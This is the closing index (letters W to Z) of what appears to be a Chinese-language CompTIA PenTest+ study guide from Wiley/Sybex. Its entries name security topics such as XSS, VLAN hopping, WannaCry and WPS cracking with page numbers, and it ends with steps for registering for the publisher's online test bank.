* 虚拟网络计算 (VNC)，125
* 语音钓鱼攻击，95, 97, 134, 228
* 虚拟局域网 (VLANs)
    * 跳转，113
    * 交换机欺骗，113
* VM（虚拟机）逃逸，123
* VNC（虚拟网络计算），125
* VoIP 电话，113
* VPN 凭据，209, 247
* 漏洞优先级，207
* 漏洞评级，69
* 漏洞扫描器，155

## W
* W3AF 工具，155
* WADL（Web 应用描述语言），16, 19
* WAF（Web 应用防火墙）日志，209
* WannaCry 漏洞利用
    * 描述，79
    * SMB 协议，107
* 弱凭据利用，116
* Web 应用描述语言 (WADL)，16, 19
* Web 应用防火墙 (WAF) 日志，209
* Web 浏览器工具，156
* 支持网络的电视显示器，75
* Web 代理工具，160
* 网页抓取，129
* Web 服务器
    * 横幅抓取，62
    * 信息收集，64, 83–84
    * nmap，146
    * 旧版，68–69
    * 端口，76, 224–225
    * 公网，73
    * Zenmap 实用工具，63
* Web 服务描述语言 (WSDL)
    * 文档，16
    * SOAP，19
* 捕鲸攻击，94, 97
* 脚本中的 while 循环，170
* 白盒评估
    * 描述，4–5, 7, 219
    * 防火墙，29
    * 全知测试，33
    * 所需信息，19
    * 基础设施漏洞，11
    * 交战规则，214
    * SDK 和 API 文档，17
* SQL 注入中的白名单验证，132–133, 230
* 白名单设备，113
* 白名单，35
* whois 工具，159
    * 描述，44, 222
    * 组织信息，77
    * OSINT，47
    * 侦察，154
* WiFite 工具，159
* Windows 管理规范 (WMI)
    * 描述，124
    * 远程管理，235
* Windows 远程管理 (WinRM)，124
* 无线设备，205
* Wireshark 实用工具
    * 转发流量，236
    * 数据包捕获，65
* WMI（Windows 管理规范）
    * 描述，124
    * 远程管理，235
* 词表
    * CeWL，238
    * 工具，174
* 工作站
    * NBTSTAT，106
    * Zenmap 实用工具，62
* WPA2-PSK 去认证攻击，131
* WPA2 不安全服务，119
* WPS 破解，114
* 开锁用的扳手，105
* 书面授权，11
* 书面许可，8
* WSDL（Web 服务描述语言）
    * 文档，16
    * SOAP，19

## X
* X11 转发，125
* XLM 模式定义 (XSD)，19
* XML 格式文本文件，148
* XSS（跨站脚本）攻击
    * 描述，128, 229
    * 示例，117
    * HTML 注入，135
    * 优先级排序，232

## Y
* 另一种源代码分析器 (YASCA) 工具，157

## Z
* Zenmap 实用工具，55–63
* 零知识评估，33
* 零知识测试，6, 33
* DNS 区域传输，75

# 综合在线学习环境

注册即可获得一年的免费访问权限，访问在线互动学习环境和题库，帮助您备考 CompTIA PenTest+ 认证考试——随本书购买附赠！

在线题库包括以下内容：
* **练习测试题** 以巩固您所学知识
* **额外练习考试** 用于测试您对材料的掌握程度

请访问 [`www.wiley.com/go/sybextestprep`](http://www.wiley.com/go/sybextestprep) 进行注册并获取此综合学习工具包的访问权限。

### 注册并访问在线题库

要注册您的图书并获取在线题库访问权限，请按照以下步骤操作：
1. 访问 bit.ly/SybexTest。
2. 从列表中选择您的图书。
3. 填写所需的注册信息，包括回答安全验证以证明图书所有权。您将收到一封包含 PIN 码的电子邮件。
4. 按照电子邮件中的说明操作，或访问 [`www.wiley.com/go/sybextestprep`](https://www.wiley.com/go/sybextestprep)。
5. 输入您收到的 PIN 码并点击“激活 PIN”按钮。
6. 在“创建账户或登录”页面，输入您的用户名和密码，然后点击登录。将会出现“感谢您激活 PIN！” 消息。如果您还没有账户，请创建新账户。
7. 点击“前往我的账户”按钮，将新图书添加到“我的产品”页面。


## WILEY 终端用户许可协议

访问 [www.wiley.com/go/eula](http://www.wiley.com/go/eula) 以获取 Wiley 电子书 EULA。
